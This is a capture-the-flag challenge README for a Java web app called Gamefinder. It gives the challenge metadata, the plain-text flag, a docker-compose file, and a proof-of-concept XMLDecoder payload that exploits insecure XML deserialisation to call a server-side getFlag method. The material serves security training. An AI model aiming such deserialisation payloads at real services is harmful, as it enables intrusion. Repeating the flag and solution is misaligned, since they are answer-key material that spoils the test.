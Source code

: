 
| metadata | </> |
|--- | --- |
| Developer Name(s) | Jorel |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Exploitation |
| Challenge Tier | 3 |
| Challenge Type | Container |

| Player facing | <> |
|--- | --- |
|Challenge Name | Gamefinder |
|Challenge Description | A new application has been developed to help user's get cheap prices on video games, development was done pretty quickly, and security wasn't a priority. http://exploit-3 | 
|Challenge Hint 1 | A decompiler would be helpful to find winning function |
|Challenge Hint 2 | Check the file the program saves. The critical vulnerability is in the OWASP top 10. |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{UR_L1br@ry_Waz_2_P0w3rful} |
|Challenge Vuln| Insecure Java XML Deserialisation | 
|Docker Usage Idle| 0.3% CPU / 5.5MB RAM |
|Docker Usage Expected Peak| 3% CPU / 8MB RAM |
---

# docker-compose.yml

```yml
version: '3'
services:

  exp-3:
    container_name: exp-3
    build: ./exp-3/
    image: registry.capture.tf:5000/wactf0x04/exp-3
    ports:
      - 8484:80
    deploy:
      resources:
        limits:
          cpus: '0.10'
          memory: 180M
        reservations:
          cpus: '0.05'
          memory: 10M
    cap_drop:
      - NET_RAW
```

# Challenge PoC.py

1. Players will connect to the server side web application. 
2. Player will download the offline desktop java application
3. Player will run the java application and notice the file saving is deserialisation
4. players will decompile the offline java app to find the vulnerable getFlag function
5. Players will write the following XML payload, based on the saved file, to call the getFlag function from the server-side. 
6. Players will upload the file and win.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_265" class="java.beans.XMLDecoder">
 <object class="model.Library" id="Library0">
  <void property="games">
   <void method="add">
    <object class="controller.LibraryAnalyser">
     <void method="getFlag">
     </void>
    </object>
   </void>
  </void>
  <void property="name">
   <string>test</string>
  </void>
 </object>
</java>
```

